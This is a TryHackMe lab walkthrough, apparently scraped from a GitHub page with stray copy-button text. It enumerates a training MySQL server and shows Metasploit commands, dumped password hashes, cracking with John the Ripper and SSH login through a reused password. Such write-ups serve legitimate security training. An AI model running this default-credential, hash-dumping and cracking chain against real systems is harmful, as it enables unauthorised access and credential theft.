 # Enumerating MySQL

References:
- [TryHackMe: Network Services 2](https://tryhackme.com/r/room/networkservices2)
- [Blog: Enumerating and Exploiting MySQL](https://andickinson.github.io/blog/enumerating-and-exploiting-mysql/)

---

## 1. Access DB

### Install MySQL:
```bash
sudo apt install default-mysql-client
```

Try passwords:
'' (empty)
password
Great, now close the MySQL connection.

## 2. Exploitation

Open Metasploit:

```bash
msfconsole
```

Search for mysql_sql:
```bash
search mysql_sql
Use the auxiliary module:
use auxiliary/admin/mysql/mysql_sql
```

Set options:
```bash
set PASSWORD password
set RHOSTS 10.10.210.104
set USERNAME root
run
```

Result:
plaintext
10.10.210.104:3306 - Sending statement: 'select version()'...
[*] 10.10.210.104:3306 -  | 5.7.29-0ubuntu0.18.04.1 |

Show databases:
bash
set SQL "show databases"
run
Result:
plaintext
Copiar código
[*] 10.10.210.104:3306 - Sending statement: 'show databases'...
[*] 10.10.210.104:3306 -  | information_schema |
[*] 10.10.210.104:3306 -  | mysql |
[*] 10.10.210.104:3306 -  | performance_schema |
[*] 10.10.210.104:3306 -  | sys |
[*] Auxiliary module execution completed

Search for and select the mysql_schemadump:
bash
Copiar código
search mysql_schemadump

Get the last table that gets dumped:
bash
Copiar código
use auxiliary/scanner/mysql/mysql_schemadump
options
set PASSWORD password
set RHOSTS 10.10.210.104
set USERNAME root
run
Table Name:
plaintext
Copiar código
TableName: x$waits_global_by_latency

Select the mysql_hashdump module:
bash
Copiar código
search mysql_hashdump
use auxiliary/scanner/mysql/mysql_hashdump

Set the relevant options and run the exploit:
bash
Copiar código
options
set PASSWORD password
set RHOSTS 10.10.210.104
set USERNAME root
run

Result:
plaintext
Copiar código
[+] 10.10.210.104:3306 - Saving HashString as Loot: root:
[+] 10.10.210.104:3306 - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.210.104:3306 - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.210.104:3306 - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.210.104:3306 - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.210.104:3306 - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.210.104:3306 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


## 3. Crack Password
User: carl
Copy the hash string in full (e.g., bob:*HASH) to a text file on your local machine called hash.txt:


bash
Copiar código
touch hash.txt
vi hash.txt
Ctrl+Shift+V
Shift+:
wq
Crack password:
bash
Copiar código
john hash.txt
Result:
plaintext
Copiar código
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/opt/john/password.lst
Proceeding with incremental:ASCII
doggie           (carl)
1g 0:00:00:02 DONE 3/3 (2024-11-14 09:45) 0.4545g/s 1039Kp/s 1039Kc/s 1039KC/s doggie..doggia
Use the "--show" option to display all of the cracked passwords reliably
Session completed.


## 4. Access Shell
What are the chances that this user has reused their password for a different service?
bash
Copiar código
ssh carl@10.10.210.104
Password: doggie

bash
Copiar código
ls
cat MySQL.txt
